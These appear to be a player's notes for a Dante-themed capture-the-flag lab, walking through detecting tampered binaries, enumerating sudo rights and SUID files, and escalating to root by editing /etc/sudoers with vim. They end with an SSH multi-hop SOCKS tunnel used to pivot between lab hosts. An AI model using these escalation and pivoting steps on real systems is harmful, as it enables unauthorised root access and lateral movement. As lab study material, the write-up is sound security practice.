 ##### Why are commands showing incorrect information?
```
which whoami
cat /usr/bin/whoami
```
![[Pasted image 20250605001124.png]]
- binaries have been modified to deliver static information

##### Why is the terminal showing root?
```
cat .bashrc | grep salvation
```
![[Pasted image 20250605001302.png]]

##### whoami Actually?
```
w
```
![[Pasted image 20250605001359.png]]

##### Check sudo privileges
```
sudo -l
```
![[Pasted image 20250605001448.png]]

##### SUID bits set
```
find / -type f -perm -4000 2>/dev/null
```
![[Pasted image 20250605001640.png]]

##### Use vim to add geryon to the sudoers group
```
vim /etc/sudoers
:wq!
sudo -i
```

##### Test ssh to 6.6.6.6
```
ssh satan@6.6.6.6
```
![[Pasted image 20250605100200.png]]

### Treachery
- IP - 6.6.6.6
##### Create the Dynamic Tunnel to 6.6.6.6
```
ssh -N -D 1080 -J virgil@192.168.1.200,cleopatra@172.1.98.15,cerberus@10.1.10.3,pluto@10.0.0.254,phlegyas@255.255.255.9,epicurus@9.9.9.8:1,minotaur@222.222.222.187 geryon@3.3.3.3
```
